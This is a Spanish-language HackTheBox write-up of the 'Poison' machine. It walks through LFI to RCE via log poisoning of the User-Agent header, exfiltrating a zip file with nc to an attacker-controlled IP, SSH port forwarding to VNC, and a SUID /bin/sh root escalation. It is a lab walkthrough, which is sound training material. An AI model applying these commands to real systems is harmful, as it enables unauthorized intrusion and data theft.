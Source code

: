 ```yaml
---
title: HackTheBox - Poison
author: cotes
date: 2023-09-19 17:51:00 +0800
categories: [Writeup, HackTheBox, Medium]
tags: [Linux, 'LFI to RCE', 'Log Poisoning', 'Local Port Forwarding (SSH)', 'VNC Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Medium/Poison/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Poison Machine Logo
---
```


Máquina Linux de nivel **Medium** de HackTheBox.

Técnicas usadas: **LFI to RCE, Log Poisoning, Local Port Forwarding, VNC Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Medium/Poison/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Medium/Poison/02-versions.png)

c. La página web nos dice que podemos ejecutar scripts **.php**, pero, el campo al no estar sanitizado correctamente, nos permite acceder incluir cualquier fichero

![](/assets/images/HTB/Medium/Poison/03-passwd.png)

* Lograremos una ejecución de comandos al leer el fichero de logs

![](/assets/images/HTB/Medium/Poison/04-log.png)

> La información que podemos manipular es el 'User-Agent', aquí es donde colocaremos nuestro código php para ser interpretado mediante el LFI
{: .prompt-info }

![](/assets/images/HTB/Medium/Poison/05-headers.png)

* En este caso la ruta para acceder a los logs en FreeBSD es `/var/log/httpd-access.log`, y ahora, ya podremos ejecutar comandos visitando la url: `http://<IP Poison>/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=[Comando]`

    ![](/assets/images/HTB/Medium/Poison/06-ls.png)

    * El fichero que nos llama la atención es **pwdbackup.txt**. El contenido de este está encodeado en base64 13 veces.

d. Obtendremos una contraseña 'Charix!2#4%6&8(0', la cual nos servirá para conectarnos en ssh con el usuario charix (Lo vimos al obtener el /etc/passwd)

### Escalada de Privilegios 💹

a. Al investigar en la máquina veremos dos cosas interesantes:

* Tenemos un fichero 'secret.zip' el cual nos transferimos a nuestra máquina

    ```bash
    ❯ nc -lvnp 443 > secret.zip
    -----------------------------------------------------
    charix@Poison:~ % nc -N 10.10.14.18 443 < secret.zip
    ```

* Tenemos 2 puertos abiertos internamente '5901 y 5801'

```bash
charix@Poison:~ % netstat -na -p tcp
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
<SNIP>
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

* Al consultar sobre estos puertos, en [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc) nos mencionan que son del servicio VNC

b. Para auditar el servicio **VNC** nos piden una credencial alojada en un fichero, por lo que, descomprimimos el .zip usando la contraseña del usuario charix

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
extracting: secret
```

* Además, como el puerto 5901 no es accesible desde fuera, haremos Local Port Forwarding con SSH

    ```bash
    ❯ ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
    ------------------------------------------------
    ❯ lsof -i:5901
    ssh     54634 root    5u  IPv4 153287      0t0  TCP localhost:5901 (LISTEN)
    ```

c. Ahora, ya podemos acceder a este servicio. Al ser **root** le damos permiso SUID a la /bin/sh

```bash
❯ vncviewer -passwd secret 127.0.0.1::5901
```

![](/assets/images/HTB/Medium/Poison/07-root.png)

* Ahora desde ssh podemos acceder a una `/bin/sh` como root

    ```bash
    charix@Poison:~ % sh -p
    # whoami
    root
    ```